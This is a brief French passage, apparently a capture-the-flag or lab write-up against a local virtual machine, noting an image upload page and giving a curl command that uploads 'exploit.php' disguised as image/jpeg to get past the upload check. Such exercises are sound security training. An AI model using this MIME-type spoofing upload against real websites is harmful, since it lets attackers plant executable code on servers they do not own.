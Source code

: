onpeu upload des images sur : http://192.168.56.101/index.php?page=upload#

on se doute qu ils y a une faille par la donc on upload via curl


 curl  'http://192.168.56.101/?page=upload' -F 'uploaded=@exploit.php;type=image/jpeg' -F 'Upload=Upload'
